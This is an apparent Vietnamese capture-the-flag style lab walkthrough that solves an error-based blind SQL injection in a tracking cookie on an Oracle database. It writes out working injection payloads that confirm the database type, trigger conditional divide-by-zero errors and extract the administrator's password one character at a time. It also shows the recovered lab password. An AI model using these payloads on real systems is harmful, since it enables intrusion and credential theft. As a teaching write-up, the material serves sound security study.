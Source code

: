 # Đầu bài cho biết:
- Ứng dụng có lỗ hổng Blind SQL injection trong cookie theo dõi.
- Ứng dụng thực hiện truy vấn SQL chứa giá trị cookie.
- Kết quả truy vấn SQL không được trả về, và ứng dụng không phản hồi khác nhau dựa trên việc truy vấn trả về hàng.
- Nếu truy vấn SQL gây ra lỗi, ứng dụng trả về thông báo lỗi tùy chỉnh.
- Cơ sở dữ liệu chứa bảng users với các cột username và password.
# Yêu cầu:
- Khai thác lỗ hổng Blind SQL injection để tìm mật khẩu của người dùng administrator.
- Đăng nhập với tư cách người dùng administrator.

# Solution:
- ' -> 500
- '' -> 200

(TrackId= 'xyz''' nếu viết 1 cái thì bị lỗi do thừa, còn 2 cái thì nó kết thành 2 cái kiểu chuỗi nối với nhau ý, nên nó ko lỗi nữa)

- ' || (SELECT '') ||' -> 500
- ' || (SELECT '' FROM dual) ||' -> là Oracle, vì bị bắt chỉ rõ tên bảng.

(`dual` là một bảng đặc biệt trong Oracle, thường dùng cho các truy vấn không cần truy cập dữ liệu thực tế)

- ' || (SELECT '' FROM dualdbajdsh) ||' -> Thử đổi tên bảng thì lỗi 500, vậy...
- ' || (SELECT '' FROM users) ||' -> 500
- ' || (SELECT '' FROM users WHERE ROWNUM = 1) ||'

(điều kiện `ROWNUM = 1` phải có vì để ghép chuỗi thì chỉ có thể lấy dữ liệu 1 dòng, nếu nhiều dòng thì không thể ghép nên mới gây ra lỗi 500 như trên)

- '|| (SELECT '' FROM users WHERE username = 'administrator') ||' -> 200

- ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual) ||' -> 500
- ' || (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) ||' -> 200

- '|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator') ||' -> 500, tương tự thôi, để kiểm tra xem administrator có tồn tại hay không

- ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator' AND LENGTH(password) = 20) ||'
Check độ dài pass thì là 20

- ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator' AND SUBSTRING(password,1,1) = 'a') ||'

' || (SELECT CASE WHEN SUBSTRING(password,1,1) = 'a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator') ||'

**Sai ở SUBSTRING nhé, dùng SUBSTR() với Oracle**

- Xong đẩy lên Intruder: 

![image](https://github.com/user-attachments/assets/be31c305-8efc-4ebe-8aed-fa41db1e4db9)

![image](https://github.com/user-attachments/assets/56eacb2c-9a55-439b-9266-d6dec239786d)

- Ta được pass: zh6rauox597khm8eumjx
- Đăng nhập và hoàn thành lab
